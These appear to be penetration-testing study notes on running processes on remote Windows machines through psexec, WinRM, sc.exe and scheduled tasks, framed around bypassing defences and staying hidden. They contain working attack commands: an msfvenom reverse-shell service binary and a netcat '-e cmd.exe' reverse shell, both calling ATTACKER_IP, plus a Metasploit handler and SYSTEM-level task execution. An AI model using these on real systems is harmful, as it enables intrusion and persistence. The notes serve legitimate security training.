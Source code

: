 
## General

Spawning Processes Remotely allows an attacker to create a new service on the target machine and associate it with a payload, which can provide a more persistent reverse shell connection that would survive a reboot of the target machine and provides a persistence mechanism for the attacker. This is better than a normal netcat reverse shell as it allows the attacker to have more control over the service and configure it to run automatically, and also allows the attacker to run the service with higher privileges than the current user.

- More information
	Spawning Processes Remotely is a technique to execute commands or run applications on a remote system without direct login. It can be done using various tools such as:
	ㅤ
	-   **psexec**: Allows execution of processes on remote systems, it can be used to run commands or launch GUI applications on remote systems.
	-   **winRM**: Windows Remote Management, it is a Microsoft protocol that allows administrators to execute commands on remote systems, it can be used to remotely execute commands, scripts, and other tasks.
	-   **sc.exe**: A command-line tool that allows you to remotely manage and control services on a Windows system.
	ㅤ
	One use-case is to add an executable file to a target system and add it to the PATH. This can be achieved by:
	ㅤ
	-   Using smbclient to transfer the executable file to a directory on the target system.
	-   Using sc.exe to create a new service and configure it to run the executable file.
	-   Adding the path of the executable file to the PATH environment variable so that the system can find the executable file when it is run.

But why using Spawning Processes Remotely?

- Bypass some security feature enable on the target machine  
- The system may not have SSH or other remote access methods enabled or configured.
-   The attacker may not have valid credentials for the system.
-   Spawning a process remotely may allow the attacker to bypass security controls, such as firewall rules or intrusion detection systems.
-   Spawning process remotely can be used as a way to gain persistence on the remote system.
-   Spawning process remotely can help to hide the attacker's presence and activities on the system, making it more difficult for security personnel to detect and respond to an intrusion.

***The choice of technique may depend on the specific situation and the target's security controls. For example, if the target has a firewall that blocks certain ports (Example RDP and SSH are closed), an attacker may choose a technique that can bypass or circumvent the firewall.***

## Commands

### Psexec
- **Ports:** 445/TCP (SMB)
- **Required Group Memberships:** Administrators

PsExec is a command-line utility developed by Sysinternals (now owned by Microsoft) that allows a user to execute processes on a remote system. It can be used to start a program on a remote computer and interact with it as if it were running locally.

Example
	The way psexec works is as follows:
	ㅤ
	1.  Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
	2.  Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with `C:\Windows\psexesvc.exe`.
	3.  Create some named pipes to handle stdin/stdout/stderr.
	ㅤ
	![psexec explained](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/a488102fe0da47a3667961400cf298d8.png)

Command
```shell-session
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
- Download [Here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)



### WinRM
-   **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.

CMD
```shell-session
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```
-   -u option is used to specify the username
-   -p option is used to specify the password
-   -r option is used to specify the name or IP address of the remote system.

PowerShell
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

```powershell
Enter-PSSession -Computername TARGET -Credential $credential
```

```powershell
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```



### SC
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCE/RPC)
    -   445/TCP (RPC over SMB Named Pipes)
    -   139/TCP (RPC over SMB Named Pipes)
-   **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

Example
	1.  A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
	ㅤ
	![svcctl via RPC](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c4f288e73da9c0f4d480ad817b365fe5.png)  
	ㅤ
	3.  If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).
	ㅤ
	![svcctl via named pipe](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0c425c37d692c771c944e38dca8c5879.png)


Create an EXE that will be run by SC
```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

Adding the EXE file on the target Machine (Via SMB)
```
smbclient -c 'put myservice.exe' -U USER.AD -W ZA '//MACHINE.DOMAIN/SHARE$/' PASSWORD_OF_USER
```
- W option is used to specify the workgroup or domain of the SMB server.

Launch Meterpreter (One Liner)
```
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

Using Runas to get a revershell from the USER (Get user Permission)
```shell-session
C:\> runas /netonly /user:DOMAIN\USER "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```
- Explaining
	Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use `runas` to spawn a new shell with t1_leonard.summer's access token. Still, we only have SSH access to the machine, so if we tried something like `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but we would have no access to it. To overcome this problem, we can use runas to spawn a second reverse shell with t1_leonard.summers access token

Commands (Create Process, adding the process to the path and linking it to the EXE file)
```shell-session
C:\> sc.exe \\MACHINE_DOMAIN create PROCESS_NAME-3249 binPath= "%windir%\myservice.exe" start= auto C:\> sc.exe \\MACHINE_DOMAIN start PROCESS_NAME-3249
```

The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:
```shell-session
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```



### Scheduled Tasks

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation.

Command
```shell-session
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```

We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:
```shell-session
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```